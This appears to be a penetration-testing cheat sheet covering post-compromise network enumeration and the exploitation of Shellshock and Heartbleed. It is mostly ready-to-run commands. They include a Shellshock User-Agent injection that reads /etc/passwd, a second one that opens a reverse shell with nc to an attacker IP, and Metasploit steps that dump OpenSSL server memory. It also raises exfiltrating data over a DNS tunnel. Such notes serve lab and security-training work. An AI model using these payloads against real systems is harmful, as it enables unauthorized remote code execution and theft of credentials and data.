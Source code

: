 {% code overflow="wrap" lineNumbers="true" %}
```bash
ifconfig -a
route -n
traceroute -n <ip_addr> # know how many hops are btw our compromised machine and other network segments.
cat /etc/resolv.conf # what machine is resolving our DNS requests? can we use it to exfilterate data over a DNS tunnel? is the DNS server vulnerable to any exploit?
arp -en # other host in the network.
netstat -auntp # what other machine are we connected to? which ports or services are we connected to or listening on?
ss -twurp # list active connections, processes, users and bytes.
nmap -sT =555 <domain_name> # check outbound firewall rules.
```
{% endcode %}

<details><summary>System Information enumeration</summary></details>

### <mark style="color:red;">Shellshock</mark>

The vuln was discovered in the UNix Bash Shell, and affected CGI programs on web servers, OpenSSH, DHCP clients, Qmail mail servers etc. `env x=`() { :;}; echo vulnerable `bash -c "echo this is a test"` check if a PC is vulnerable.

#### Exploitation

* We have to search for CGI programs on a web server.&#x20;
* `./dirsearch.py -u http://ip/ -e cgi -r -x 400,401,403` - search for CGI programs, we can use dirb, gobuster, ffuf etc.&#x20;
* `nmap --script http-shellshock --script-args uri=/<path_to_cgi> 192.168.0.100 -p 80` - check if the cgi file is vulnerable to shellshock.&#x20;
* `wget -U "() {foo;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://192.168.0.100/<cgi_path> && cat login.cgi` - this will run the cat /etc/passwd.
* To get RCE, we setup nc listener, `nc -nvlp 1234` . `wget -U "() {foo;};echo; /bin/nc 192.168.0.50 1234 -e /bin/sh" http://192.168.0.100/<cgi-path>` - we should get a reverse shell.

### <mark style="color:red;">Heartbleed</mark>

Heartbleed surfaced 2014, was a critical bug affecting OpenSSL versions 1.0.1 - 1.0.1f and allowed for the reading of encrypted data stored in memory due to a faulty implementation of the TLS and DTLS protocols.&#x20;

`nmap --script ssl-heartbleed 192.168.0.178` - check if a victim is vulnerable. After that, we can use Metasploit to dump encrypted memory contents.

{% code overflow="wrap" lineNumbers="true" %}
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS
show actions # view all the auxiliary actions, lets select #1.
set action DUMP
run # check the loot file.
```
{% endcode %}
